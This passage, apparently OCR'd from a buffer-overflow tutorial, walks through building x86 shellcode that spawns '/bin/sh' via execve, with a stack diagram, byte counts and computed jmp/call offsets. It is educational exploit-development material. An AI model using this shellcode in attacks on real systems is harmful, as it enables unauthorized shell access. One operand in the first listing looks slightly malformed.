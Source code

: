 <------   [JJSSSSSSSSSSSSSSCCss][ssss][0xD8][0x01][0x02][0x03]
           ^|^             ^|            |
           |||_____________||____________| (1)
       (2)  ||_____________||
             |______________| (3)
top of                                                            bottom of
stack                                                                 stack



   With this modifications, using indexed addressing, and writing down how
many bytes each instruction takes our code looks like:

------------------------------------------------------------------------------
        jmp    offset-to-call           # 2 bytes
        popl   %esi                     # 1 byte
        movl   %esi,array-offset(%esi)  # 3 bytes
        movb   $0x0,nullbyteoffset(%esi)# 4 bytes
        movl   $0x0,null-offset(%esi)   # 7 bytes
        movl   $0xb,%eax                # 5 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   array-offset,(%esi),%ecx # 3 bytes
        leal   null-offset(%esi),%edx   # 3 bytes
        int    $0x80                    # 2 bytes
        movl   $0x1, %eax		# 5 bytes
        movl   $0x0, %ebx		# 5 bytes
	int    $0x80			# 2 bytes
        call   offset-to-popl           # 5 bytes
        /bin/sh string goes here.
------------------------------------------------------------------------------

   Calculating the offsets from jmp to call, from call to popl, from
the string address to the array, and from the string address to the null
long word, we now have:

------------------------------------------------------------------------------
        jmp    0x26                     # 2 bytes
        popl   %esi                     # 1 byte
        movl   %esi,0x8(%esi)           # 3 bytes
        movb   $0x0,0x7(%esi)		# 4 bytes
        movl   $0x0,0xc(%esi)           # 7 bytes
        movl   $0xb,%eax                # 5 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   0x8(%esi),%ecx           # 3 bytes
        leal   0xc(%esi),%edx           # 3 bytes
        int    $0x80                    # 2 bytes
        movl   $0x1, %eax		# 5 bytes
        movl   $0x0, %ebx		# 5 bytes
	int    $0x80			# 2 bytes
        call   -0x2b                    # 5 bytes
        .string \"/bin/sh\"		# 8 bytes
------------------------------------------------------------------------------
